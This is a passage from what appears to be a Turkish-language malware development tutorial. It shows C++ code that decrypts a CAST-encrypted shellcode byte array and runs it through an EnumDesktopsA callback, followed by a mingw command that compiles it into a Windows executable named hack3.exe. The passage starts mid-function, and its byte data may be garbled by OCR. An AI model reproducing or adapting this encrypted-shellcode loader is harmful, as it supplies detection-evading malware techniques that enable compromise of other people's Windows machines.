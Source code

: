 ```cpp
  myEnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem_block, 
  (LPARAM)NULL); 
}

int main() {
  unsigned char padded[] = "\x92\x15\x7e\x1b\x46\x4d\xff\xff"
  "\x7d\x55\x52\x41\x61\xcc\x51\x41\x52\x73\x83\x33\x2f\x47"
  "\xd2\x65\x4d\x72\xd9\x32\xdd\x92\x8b\x52\x30\x50\x76\xc3"
  "\xe3\xb6\x3e\x48\x6f\x80\xe7\x74\xca\x8c\xb7\x4a\x89\xcf"
  "\xf1\x65\x42\x9b\xc0\xac\x5a\xe1\x3d\xc3\x26\x8d\x41\xc1"
  "\x46\xf4\xac\x53\x3c\x8f\xed\x52\x10\x26\x1e\x76\x05\x3b"
  "\x20\x3e\x00\x11\x02\xc3\x0f\x05\x3e\x8b\x13\x71\x86\xc0"
  "\x85\x91\x85\xc0\xc1\x50\x76\x8a\x32\xda\x3e\x8b\x3e\x91"
  "\x1e\x0d\xf6\x65\x20\x49\x8e\x91\x29\x62\xf9\x95\xc9\x3e"
  "\x8b\x52\xe3\xc5\x51\x22\xd6\x4d\x6b\x09\x09\xf0\x50\x32"
  "\x41\xc1\x55\x4b\xa1\x74\x68\x80\xe0\x75\xf1\x72\x45\x46"
  "\x75\xb8\x08\x45\x93\xd8\x30\x5d\x6f\x63\x44\x8b\xb9\x22"
  "\x77\x40\x76\xc8\x3e\x41\x3f\x54\x09\x22\x2d\x60\x40\x1c"
  "\xdb\x68\xd5\xb6\xb6\x1a\x04\x88\xbd\x8f\x88\x1f\x40\xa3"
  "\x58\x5e\x70\xc9\x03\x02\xde\x9d\x41\x5a\x19\x2f\x13\xc0"
  "\xee\xa8\xff\xe0\x7b\xc0\xd2\x48\xf9\xce\x8b\x12\xd9\x7d"
  "\xb6\x38\x65\x8d\x49\xc7\x01\x27\x48\x8d\x11\x1d\x48\x8d"
  "\x66\xfb\x4c\x8d\x16\x1b\x4c\x8d\xf3\xa0\x30\xc9\x7a\x8a"
  "\x31\xc9\xf9\x77\x45\x55\x3e\x46\xff\xd5\x56\x36\xa7\x8c"
  "\x88\x2d\xba\xa6\x7c\xde\x19\x3b\x80\x97\x83\xc4\x18\x6a"
  "\xfd\x9c\x1e\xc3\xfb\xe0\x68\xd9\xcb\x2d\x36\xff\x6f\x6a"
  "\x41\x7e\x94\xc4\xa7\xf9\xd5\x4d\x35\x1b\x18\x5a\x71\x2c"
  "\x6f\x77\xed\x5f\x63\x63\x0d\x41\x5e\x3d\x00\x00";

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  cast_decrypt_and_execute_shellcode(padded, sizeof(padded), subkeys);

  return 0;
}
```

### demo 3

Bu versiyonu derleyin:    

```bash
x86_64-w64-mingw32-g++ -O2 hack3.c -o hack3.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermission
```

![cryptography](./images/131/2024-07-28_17-21.png){width="80%"}      
